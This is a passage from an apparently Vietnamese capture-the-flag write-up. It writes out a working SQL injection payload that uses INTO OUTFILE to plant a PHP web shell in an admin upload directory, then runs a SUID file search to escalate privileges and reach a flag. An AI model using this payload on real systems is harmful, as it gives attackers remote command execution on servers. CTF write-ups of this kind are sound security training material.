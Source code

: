 Lúc này cũng vừa hết giờ, thôi gg! Cay quá phải điện thoại xin tác giả cho hint để làm tiếp. Xúc tích cái hint đó sẽ là:

`Quay về nơi bắt đầu`

#### Exploit

Có vẻ mình bỏ qua chỗ nào đó. Nhớ lúc đầu, trước khi lấy được tài khoản admin, Mình đã thử Upload shell với SQLi rồi. Nhưng thất bại, có thể là do không có quyền ghi. Nhưng lúc này nghĩ lại thì giờ mình đã có một endpoint có thể ghi và truy cập được thông qua tính năng upload của tài khoản admin : `../Upload/`

Vậy công việc còn lại là upload shell vào thư mục đó nữa là xong

Payload: 
`' union select '<?php system($_GET["cmd"]); ?>' into outfile '/var/www/html/admin_a2dc213f531a2f5581de515ddaf81ca3/Upload/test2.php' -- -`

<img src="img/upload_shell.png">

Khi có shell rồi sẽ thấy file `flag.txt`, tuy nhiên user hiện tại (`www-data`) không có quyền đọc file này, mà chỉ có `drx` hoặc `root` thôi.

Check thử các file SUID `find . -perm /4000 `:

<img src="img/check_pri.png">
